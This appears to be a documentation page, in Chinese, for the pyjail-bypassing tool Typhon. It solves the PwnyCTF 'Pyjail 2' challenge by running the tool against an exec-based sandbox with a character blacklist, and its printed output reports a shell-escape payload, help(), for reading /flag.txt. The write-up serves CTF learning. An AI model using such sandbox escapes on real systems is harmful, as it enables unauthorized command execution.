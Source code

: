 EXAMPLE 示例
============

此页用于提供关于 ``Typhon`` 的一些实战例题。

PwnyCTF Pyjail 2
-------------------

题目链接： https://ctf.sigpwny.com/challenges#Vault/Pyjail%202-633

.. code-block:: python
    :linenos:
    :emphasize-lines: 3,26

    #!/usr/bin/env python3

    #Flag is at /flag.txt

    def is_bad(user_input):
        banned = '"*\'`x'

        for c in banned:
            if c in user_input:
                return True
        
        return False


    def main():

        print("You wake up in the jail gym. Your head is still sore from the bonk.")

        user_input = input('What do you have to say for yourself? ')

        if is_bad(user_input):
            print('Sorry, not good enough. Go back to jail.')
            return
        
        try:
            exec(user_input)
            print("Ok, we'll consider it.")
        except:
            print('Sorry, not good enough. Go back to jail.')


    if __name__ == '__main__':
        main()

flag位于 ``/flag.txt`` 文件中。

注意到第25行存在执行函数： ``exec(user_input)``。同时，此题目的WAF有且仅有 ``is_bad()`` 函数，其
功能为检测用户输入是否包含 ``"``、 ``'``、 ``*``、  `````、 ``x``。

此处我们将执行行删去，换为对应的命令。

我们将 ``main()`` 函数改为：

.. code-block:: python
    :linenos:
    :emphasize-lines: 12,13

    def main():

        print("You wake up in the jail gym. Your head is still sore from the bonk.")

        user_input = input('What do you have to say for yourself? ')

        if is_bad(user_input):
            print('Sorry, not good enough. Go back to jail.')
            return
        
        try:
            import Typhon
            Typhon.bypassRCE('cat /flag.txt', banned_chr = '"*\'`x')
            print("Ok, we'll consider it.")
        except:
            print('Sorry, not good enough. Go back to jail.')

运行，随意输入使得控制流进入 ``Typhon.bypassRCE()`` 函数，即可得到flag（在 ``input()`` 时什么都不输入即可）。

.. code-block:: bash

    You wake up in the jail gym. Your head is still sore from the bonk.
    What do you have to say for yourself?

        .-')          _                 Typhon: a pyjail bypassing tool
       (`_^ (    .----`/
        ` )  \_/`   __/     __,    [Typhon Version]: v1.0.10
        __{   |`  __/      /_/     [Python Version]: v3.13.4
       / _{    \__/ '--.  //       [Github]: https://github.com/Team-intN18-SoybeanSeclab/Typhon
       \_> \_\  >__/    \((        [Author]: LamentXU <lamentxu644@gmail.com>
            _/ /` _\_   |))

    WARNING [!] banned_chr should be a list, converting to list for compatibility.
    WARNING [!] local scope not specified, using the global scope.
    INFO [*] 7 paths found to directly getshell. Try to bypass blacklist with them. Please be paitent.
    Bypassing (7/7): [===============================================================================>] 100.0%
    INFO [+] directly getshell success. 49 payload(s) in total.
    INFO [+] You now can use this payload to getshell directly with proper input.




    -----------Progress-----------


    directly input bypass(49 payloads found): help()


    -----------Progress-----------


    +++++++++++Jail broken+++++++++++


    help()


    +++++++++++Jail broken+++++++++++

此时，我们再远程环境中输入 ``help()`` 再利用 `相应的技术 <https://typhonbreaker.readthedocs.io/zh-cn/latest/FAQ.html#id1>`_ 进行绕过即可 。
